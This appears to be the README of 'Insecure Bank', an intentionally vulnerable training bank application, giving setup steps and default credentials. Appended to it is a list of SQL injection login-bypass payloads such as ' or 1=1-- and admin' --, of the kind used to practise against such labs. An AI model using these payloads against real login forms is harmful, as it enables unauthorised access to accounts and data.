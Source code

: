 # Insecure Bank
![Insecure-Bank](https://hdivsecurity.com/img/bank.png)
## Running the application locally

1. Clone the repository:

        $ git clone https://github.com/hdiv/insecure-bank.git
2. Run the application using an embedded Tomcat:

	    $ mvn clean package
	    $ mvn cargo:run
	    
3. You can then access the bank application here: http://localhost:8080/insecure-bank/

## Login credentials
- username: john
- password: test
# User Story  Security
user = hack' or 1=1--
password = pas de pwd

#Syntax Reference, Sample Attacks and Dirty SQL Injection Tricks
*1  --
*1  #

#Bypassing Login Screens (SMO+)
#SQL Injection 101, Login tricks

admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--